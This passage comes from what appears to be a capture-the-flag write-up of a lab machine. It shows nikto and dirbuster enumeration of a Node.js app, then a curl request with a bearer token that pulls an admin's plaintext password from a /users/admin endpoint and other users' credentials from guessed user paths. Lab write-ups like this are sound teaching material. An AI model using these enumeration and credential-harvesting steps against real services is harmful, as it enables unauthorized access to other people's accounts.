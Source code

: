 We haven't run nikto yet, know it is the moment since it may give us an inspiration on the next step.  
Nikto returns an interesting information
```
+ /package.json: Node.js package file found. It may contain sensitive information
```
So let's take a look at this json.  
We find the reference to the github page of the web page. We visit it and analyse the code. Nothing that can be exploited.  

At this point there are not much more possibilities left, thus we restart enumerating.  
We run a recursive directory/file search with dirbuster and we get some new veeeery interesting files
```
File found: /login - 200
File found: /Login - 200
Dir found: /login/ - 200
Dir found: /Login/ - 200
Dir found: /users/ - 200
File found: /users - 200
Dir found: /users/admin/ - 200
Dir found: /users/Admin/ - 200
Dir found: /users/ADMIN/ - 200
File found: /users/admin - 200
File found: /users/Admin - 200
File found: /users/ADMIN - 200
```

It is time to play with those juicy admin pages.  
We already have the auth token. Then
```
>> curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjExNzQ5OTUxLCJleHAiOjE2MTE4MzYzNTF9.htR21iH9laL4uWjfiunYcn1xGkHhIn-CP8A1VgADyrc' http://10.10.10.137:3000/users/admin
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
```

Again, we can try the password on the login forms we have. We try all possible user/password combinations.  
:(   , still no access to any portal.  
What are we missing?

After a while and some unfruitful brute forces, we keep looking at the json application on port 3000.  
Since we got the admin password under the /users/admin, We tried to look in /users/yuri folder to get yuri's credentials. It works, so as for the other users. Dirbuster hasn't detected the folder because the dictonary file we supplied did not contain those names. This are the pages we are looking for:
```
File found: /users/Derry - 200
File found: /users/Yuri - 200
File found: /users/Dory - 200
File found: /users/dory - 200
File found: /users/admin - 200
File found: /users/derry - 200
File found: /users/yuri - 200
File found: /users/Admin - 200
```
